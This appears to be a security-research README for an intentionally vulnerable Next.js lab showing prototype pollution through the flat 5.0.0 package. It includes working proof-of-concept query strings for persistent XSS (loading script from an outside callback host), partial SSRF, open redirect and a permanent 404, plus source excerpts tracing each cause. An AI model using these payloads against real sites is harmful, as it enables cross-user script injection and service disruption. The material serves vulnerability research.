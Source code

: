 # Next.js Flat Prototype Pollution

A prototype pollution scenario in [Next.js](https://github.com/vercel/next.js/) when [flat:5.0.0](https://www.npmjs.com/package/flat) is used.

> Video goes here

## Setup Instructions

Install dependencies and start production server.

```sh
npm install
npm run build
npm start
```

## Gadgets

> Lot of unexplored surface. If you find any gadgets, send a pull request :)

| Name                              | Description                                        | Type                          | Package                         | Completed |
| --------------------------------- | -------------------------------------------------- | ----------------------------- | ------------------------------- | :-------: |
| [AMP first look](#amp-first-look) | via `ampUrlPrefix` in `ampOptimizer.transformHtml` | Persistent XSS + Partial SSRF | `@ampproject/toolbox-optimizer` |     ✔     |
| [Redirect SSR](#redirect-ssr)     | via `redirect.destination` in `getServerSideProps` | Open Redirect                 | `next`                          |     ✔     |
| [404 SSR](#404-ssr)               | via `notFound` in `getServerSideProps`             | Permanant 404                 | `next`                          |     ✔     |
| More AMP                          |                                                    |                               |                                 |           |
| React Server Components           |                                                    |                               |                                 |           |
| Image & Font Optimization         |                                                    |                               |                                 |           |
| API & Middlewares                 |                                                    |                               |                                 |           |
| Router                            |                                                    |                               |                                 |           |
| Prisma                            |                                                    |                               |                                 |           |

## AMP first look

Persistent Cross-Site Scripting via `ampUrlPrefix` in `ampOptimizer.transformHtml` (Session-wide like broadcast due to server-side rendering).

Also a partial SSRF via `node-fetch` during AMP transform.

**Poc**

```sh
# XSS on a AMP enabled Page
/vulnerable?__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

# XSS on a Non-AMP Page (but AMP should be enabled in atleast one other page on the site)
/vulnerable?amp=1&__proto__.amp=hybrid&__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

# Partial SSRF - works if route `/*` does not return 404 else server hangs
/vulnerable?__proto__.ampUrlPrefix=https://URL/

```

**Cause**

Requires 2 stages to poison the server-side code with our payload because AMP check happens before the pollution in `getServerSideProps`. So we pollute in the first request and trigger in another which does a new AMP check and optimize.
Once it's poisoned any single subsequent request will trigger XSS on any session as the server-side code is poisoned via prototype pollution.

```js
/* next/server/render.tsx */
const ampState = {
  ampFirst: pageConfig.amp === true,
  hasQuery: Boolean(query.amp),
  hybrid: pageConfig.amp === "hybrid",
};
const inAmpMode = !process.browser && (0, _amp).isInAmpMode(ampState); // isInAmpMode() { return ampFirst || hybrid && hasQuery }
// ...
html = await optimizeAmp(html, renderOpts.ampOptimizerConfig);
```

```js
/* next/server/optimize-amp.ts */
const optimizer = AmpOptimizer.create(config);
return optimizer.transformHtml(html, config); // config.ampUrlPrefix = 'https://xss-callback.pwnfunction.repl.co/'
```

```js
/* @ampproject/toolbox-optimizer/index.js */
async transformHtml(t, e) {
    const r = await i.parse(t);
    await this.transformTree(r, e);
    return i.serialize(r);
}
```

```js
/* `transformTree` eventually leads to the following */
5690: (t, e, r) => {
    // ...
    class RewriteAmpUrls {
        // ...
        transform(t, e) {
            // ...
            d.push(this._createPreload(l.attribs.src, "script")); // l.attribs.src = 'https://xss-callback.pwnfunction.repl.co/'
            // ...
        }
        // ...
    }
    t.exports = RewriteAmpUrls;
},

// <script async="" src="https://xss-callback.pwnfunction.repl.co/v0.js"></script>
```

> Note: In `next.config.js`, we skip validation `skipValidation: true`.
> This is to disable `SeparateKeyframes` (`fn 1053`) - `@ampproject/toolbox-optimizer/index.js` throws `filter on undefined` due to prototype pollution. (Lazy fix)

> Also while initializing runtime styles in `@ampproject/toolbox-optimizer`, response body from `ampUrlPrefix` is inserted directly to the page,
> meaning one can still achieve XSS even if `RewriteAmpUrls` transformer is disabled.

## Redirect SSR

**Poc**

```url
/vulnerable?__proto__.redirect.destination=https://pwnfunction.com
```

**Cause**

```js
/* next/server/render.tsx */
if ("redirect" in data && typeof data.redirect === "object") {
  checkRedirectValues(data.redirect, req, "getServerSideProps");
  data.props = {
    __N_REDIRECT: data.redirect.destination,
    __N_REDIRECT_STATUS: (0, _loadCustomRoutes).getRedirectStatus(
      data.redirect
    ),
  };
  if (typeof data.redirect.basePath !== "undefined") {
    data.props.__N_REDIRECT_BASE_PATH = data.redirect.basePath;
  }
  renderOpts.isRedirect = true;
}
```

## 404 SSR

**Poc**

```url
/vulnerable?__proto__.notFound=1
```

**Cause**

```js
/* next/server/render.tsx */
if ('notFound' in data && data.notFound) {
    if (pathname === '/404') {
        throw new Error(
            `The /404 page can not return notFound in "getStaticProps", please remove it to continue!`
        )
    }

    ;(renderOpts as any).isNotFound = true
    return null
}
```
